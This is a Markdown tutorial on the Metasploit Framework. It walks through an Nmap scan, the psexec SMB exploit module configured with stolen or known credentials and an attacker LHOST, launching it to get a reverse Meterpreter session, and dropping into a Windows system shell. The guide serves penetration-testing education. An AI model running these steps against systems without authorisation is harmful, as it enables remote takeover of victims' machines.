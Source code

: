 ## 1. What is Metasploit

The **Metasploit Framework** is an open-source tool created by Rapid7 for automating vulnerability exploitation and post-exploitation tasks.

It includes:

- Over **2000 exploits**
    
- Over **500 payloads**
    
- Modules for scanning, exploitation, post-exploitation, and evasion
    

**Meterpreter** is the default payload used in many modules, providing extended capabilities for controlling and interacting with the target system.

---

## 2. Starting Metasploit

To launch Metasploit:

```bash
sudo msfconsole
```

You will see the ASCII art banner along with framework statistics such as the number of exploits, payloads, and auxiliary modules available.

Metasploit modules include:

- **Exploits** – Tools for leveraging vulnerabilities
    
- **Payloads** – Code delivered to the target
    
- **Auxiliary modules** – Scanning, enumeration, and support tools
    
- **Encoders** – Used to modify payloads for evasion
    

---

## 3. Target Discovery with Nmap

Use Nmap to scan and fingerprint the target before launching Metasploit:

```bash
nmap -sC -sV -Pn <target-ip>
```

**Example of common ports:**

- **135**: MS RPC
    
- **139**: NetBIOS-SSN
    
- **445**: Microsoft-DS (SMB)
    

This scan also provides OS details and information on SMB security modes.

---

## 4. Searching for SMB Exploits

Within Metasploit:

```bash
search smb
```

From the results, select a relevant module using its index number:

```bash
use 56
```

Example module:

```
exploit/windows/smb/psexec
```

This module leverages valid SMB credentials to deliver a **Meterpreter payload**.

---

## 5. Module Configuration

Use the `options` command to display configurable parameters.

Common settings:

```bash
set RHOSTS <target-ip>
set SHARE ADMIN$
set SMBUser <username>
set SMBPass <password>
set LHOST <your-ip>
```

**Parameter meanings:**

- **RHOSTS**: Target IP address or range
    
- **SHARE**: Shared resource (commonly `ADMIN$`)
    
- **SMBUser**: Username for authentication
    
- **SMBPass**: Password for authentication
    
- **LHOST**: Attacker machine IP for the reverse connection
    

---

## 6. Launching the Exploit

Run:

```bash
exploit
```

The framework will:

1. Connect to the target
    
2. Authenticate with provided credentials
    
3. Select the payload
    
4. Deliver and execute the payload
    

A successful attempt opens a **Meterpreter session**:

```
meterpreter >
```

---

## 7. Working with Meterpreter

Basic Meterpreter commands:

- `?` or `help` – Show available commands
    
- `shell` – Drop into a native system shell:
    
    ```
    meterpreter > shell
    C:\WINDOWS\system32>
    ```
    